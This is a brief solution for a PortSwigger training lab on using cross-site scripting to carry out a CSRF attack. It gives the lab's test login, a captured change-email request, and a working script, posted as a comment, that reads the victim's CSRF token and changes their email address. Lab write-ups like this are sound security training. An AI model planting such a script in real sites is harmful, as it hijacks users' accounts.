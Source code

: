 # Lab: Exploiting XSS to perform CSRF
# https://portswigger.net/web-security/cross-site-scripting/exploiting/lab-perform-csrf

```bash
# Login with wiener:peter.
# Change your email to a@gmail.com.
# Go to burp suite and check change-email request from target.

email=a%40gmail.com&csrf=yav7UlslXvgzxLqvoNbzajag9TA11UVC

# We need to take our targets csrf.
```

```bash
# Create comment with this code and you will be done.

<script>
window.addEventListener('DOMContentLoaded', function(){
var token = document.getElementsByName('csrf')[0].value;


var data = new FormData();

data.append('csrf', token);
data.append('email', 'abcdef@gmail.com');


fetch('/my-account/change-email', {
 method: 'POST',
 mode: 'no-cors',
 body: data
});
});
</script>
```
